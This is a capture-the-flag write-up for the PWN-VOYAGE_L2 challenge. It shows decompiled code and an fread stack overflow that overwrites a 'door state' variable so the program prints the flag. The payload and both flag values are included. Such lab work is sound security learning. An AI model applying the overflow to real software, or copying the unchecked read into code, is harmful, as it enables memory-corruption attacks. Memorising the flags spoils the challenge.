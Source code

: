 # PWNVOYAGE / GAME / PWN-VOYAGE_L2

Finally, things get more interesting. With the `file` command, we can observe that the binary is stripped. Additionally, we are prompted for a file named **FLAG.txt** containing the flags from the previous level.

```

caigoshinobi@freyja:~$ file ./PWN-VOYAGE_L2
./PWN-VOYAGE_L2: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=cb162e623a468bace4baa7d427caa120424f421b, for GNU/Linux 3.2.0, stripped

caigoshinobi@freyja:~$ ./PWN-VOYAGE_L2

============================================================

 ██▓    ▓█████ ██▒   █▓▓█████  ██▓           ██▓ ██▓
▓██▒    ▓█   ▀▓██░   █▒▓█   ▀ ▓██▒          ▓██▒▓██▒
▒██░    ▒███   ▓██  █▒░▒███   ▒██░          ▒██▒▒██▒
▒██░    ▒▓█  ▄  ▒██ █░░▒▓█  ▄ ▒██░          ░██░░██░
░██████▒░▒████▒  ▒▀█░  ░▒████▒░██████▒      ░██░░██░
░ ▒░▓  ░░░ ▒░ ░  ░ ▐░  ░░ ▒░ ░░ ▒░▓  ░      ░▓  ░▓
░ ░ ▒  ░ ░ ░  ░  ░ ░░   ░ ░  ░░ ░ ▒  ░       ▒ ░ ▒ ░
  ░ ░      ░       ░░     ░     ░ ░          ▒ ░ ▒ ░
====░==░===░==░=====░=====░==░====░==░=======░===░==========
                    ░
You mercilessly annihilate a pair of bloodthirsty undead,
their pitiable forms disintegrating in the face of your
power. However, as you reach the very threshold of the Vault,
a discouraging sight awaits you: The Vault's door is veiled
in an enigmatic magical aura, a barrier challenging anyone
to enter... yet you charge ahead with all your might.

============================================================


------------------------------------------------------
| *FLAG.txt REQUIRED*                                |
|                                                    |
| Create the FLAG.txt file and insert the flags of   |
| the previous levels, one per line.                 |
------------------------------------------------------

```

After creating the required file, we discover that Knight is attempting to break through the Vault door, which is flagged as **CLOSED**.

```

-$> Access Granted. Now let's pwn this f*cking door

-$> You give an almighty shove. The door is now CLOSED

-$> You are hurled backward by a spell from the ancient gates, compelled
    to retreat a few paces. The curses of defense begin to graze your armor,
    slowly dissolving the metal. Yet, the voice of your conscience continues
    to echo just one thing: Keep pushing.

```

We move on to the binary with dogbolt.org and try to make sense of it.

```

__int64 __fastcall main(int a1, char **a2, char **a3)
{
  char v4[304]; // [rsp+10h] [rbp-2D0h] BYREF
  char ptr[265]; // [rsp+140h] [rbp-1A0h] BYREF
  char haystack[135]; // [rsp+249h] [rbp-97h] BYREF
  FILE *v7; // [rsp+2D0h] [rbp-10h]
  FILE *stream; // [rsp+2D8h] [rbp-8h]

  sub_164E();
  strcpy(haystack, "CLOSED");
  stream = fopen("FLAG.txt", "r");
  if ( stream )
  {
    fread(ptr, 1uLL, 0x12CuLL, stream);
    fclose(stream);
    ptr[33] = 0;
    if ( (unsigned int)sub_151D(ptr) )
    {
      printf("-$> You give an almighty shove. The door is now %s\n", haystack);
      if ( strstr(haystack, "OPEN") )
      {
        v7 = fopen("FLAG.txt", "r");
        if ( v7 )
        {
          fread(v4, 1uLL, 0x12CuLL, v7);
          fclose(v7);
          sub_13EA(v4);
          return 0LL;
        }
        else
        {
          sub_14D8();
          return 1LL;
        }
      }
      else
      {
        puts(
          "\n"
          "-$> You are hurled backward by a spell from the ancient gates, compelled    \n"
          "    to retreat a few paces. The curses of defense begin to graze your armor,\n"
          "    slowly dissolving the metal. Yet, the voice of your conscience continues\n"
          "    to echo just one thing: Keep pushing.\n");
        return 1LL;
      }
    }
    else
    {
      return 0LL;
    }
  }
  else
  {
    sub_14D8();
    return 1LL;
  }
}

```

Some now we know that:

- The `haystack` variable is declared and initialized with the value **CLOSED** This variable represents the state of the Vault door.

- The program attempts to open the file named **FLAG.txt** in read mode using `fopen`. If successful, it reads the content of the file into the `ptr` array with `fread`, limited to 300 bytes. Then, it closes the file.

- If the `haystack` contains **OPEN** it proceeds to open the **FLAG.txt** file again, reads its content into the `v4` array, closes the file, and calls the `sub_13EA(v4)` function.

- The `sub_13EA` function takes a hexadecimal string and processes it to obtain the flag. 


We can also note a possible vulnerability in this code, primarily due to the use of `fread`. The reason is that `fread` reads data from the file without checking the size of the data compared to the size of the destination buffer, which can lead to a stack overflow if the read data exceeds the buffer's size.


If indeed we insert some A's inside FLAG.txt:

```

-$> Access Granted. Now let's pwn this f*cking door

-$> You give an almighty shove. The door is now AAAAAA


-$> You are hurled backward by a spell from the ancient gates, compelled
    to retreat a few paces. The curses of defense begin to graze your armor,
    slowly dissolving the metal. Yet, the voice of your conscience continues
    to echo just one thing: Keep pushing.

caigoshinobi@freyja:~$ cat FLAG.txt
NTRLGC{TH1SH1LLSM3LLSL1K3V1CT0RY}AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

```

It works! So it's possible to insert the string **OPEN** inside the `haystack` variable:

```

caigoshinobi@freyja:~$ cat FLAG.txt
NTRLGC{TH1SH1LLSM3LLSL1K3V1CT0RY}AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAOPEN

caigoshinobi@freyja:~$ ./PWN-VOYAGE_L2

============================================================

 ██▓    ▓█████ ██▒   █▓▓█████  ██▓           ██▓ ██▓
▓██▒    ▓█   ▀▓██░   █▒▓█   ▀ ▓██▒          ▓██▒▓██▒
▒██░    ▒███   ▓██  █▒░▒███   ▒██░          ▒██▒▒██▒
▒██░    ▒▓█  ▄  ▒██ █░░▒▓█  ▄ ▒██░          ░██░░██░
░██████▒░▒████▒  ▒▀█░  ░▒████▒░██████▒      ░██░░██░
░ ▒░▓  ░░░ ▒░ ░  ░ ▐░  ░░ ▒░ ░░ ▒░▓  ░      ░▓  ░▓
░ ░ ▒  ░ ░ ░  ░  ░ ░░   ░ ░  ░░ ░ ▒  ░       ▒ ░ ▒ ░
  ░ ░      ░       ░░     ░     ░ ░          ▒ ░ ▒ ░
====░==░===░==░=====░=====░==░====░==░=======░===░==========
                    ░
You mercilessly annihilate a pair of bloodthirsty undead,
their pitiable forms disintegrating in the face of your
power. However, as you reach the very threshold of the Vault,
a discouraging sight awaits you: The Vault's door is veiled
in an enigmatic magical aura, a barrier challenging anyone
to enter... yet you charge ahead with all your might.

============================================================

-$> Access Granted. Now let's pwn this f*cking door

-$> You give an almighty shove. The door is now OPEN

-$> Flag: NTRLGC{H3LL0B1TCH3S!}

```